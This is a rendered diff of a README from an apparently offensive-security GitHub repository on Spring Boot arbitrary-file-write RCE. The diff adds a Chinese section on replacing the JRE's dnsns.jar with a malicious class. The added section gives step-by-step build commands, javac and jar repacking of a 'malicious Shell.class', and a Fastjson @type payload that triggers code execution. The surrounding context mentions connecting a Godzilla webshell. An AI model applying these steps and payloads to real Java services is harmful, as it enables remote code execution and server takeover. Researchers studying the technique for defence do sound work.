

Before and after one commit to Catherines77/Springboot-Arbitrary-file-writing-RCE, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -166,3 +166,43 @@ print(response.text)
 哥斯拉连接
 
 <img width="1055" height="683" alt="image" src="https://github.com/user-attachments/assets/be2918f0-8d96-4956-8f06-d9060b8658f6" />
+
+## dnsns.jar
+
+`dnsns.jar`也是位于jre/lib/ext路径下的文件，其核心原理与 `nashorn.jar` 类似：通过文件上传漏洞替换或污染这个扩展包中的类，再通过 Fastjson 反序列化触发该类的setter，从而实现 RCE。
+
+由于利用方式相同，这里就不再过多赘述了，讲一下构造步骤即可
+
+**构造步骤**
+
+1.备份并解压正常的dnsns.jar包，位于JAVA_HOME/jre/lib/ext/
+
+2.在dnsns\sun\net\spi\nameservice\dns\下创建DNSNameServiceDescriptor.java
+
+3.将fastjson-1.2.83.jar和正常的dnsns.jar包放在解压出来的dnsns目录下，用于编译DNSNameServiceDescriptor.java
+
+```
+dnsns
+	--sun
+	--META-INF
+	--fastjson-1.2.83.jar
+	--dnsns.jar
+```
+
+4.编译DNSNameServiceDescriptor.java
+
+```cmd
+javac -cp "fastjson-1.2.83.jar" sun/net/spi/nameservice/dns/DNSNameServiceDescriptor.java
+```
+
+5.将恶意Shell.class重新打包进dnsns.jar
+
+```java
+jar -uvf dnsns.jar sun/net/spi/nameservice/dns/DNSNameServiceDescriptor.class
+```
+
+最后同样fastjson触发
+
+```json
+{"@type":"sun.net.spi.nameservice.dns.DNSNameServiceDescriptor","javaCode":"xxx"}
+```
````
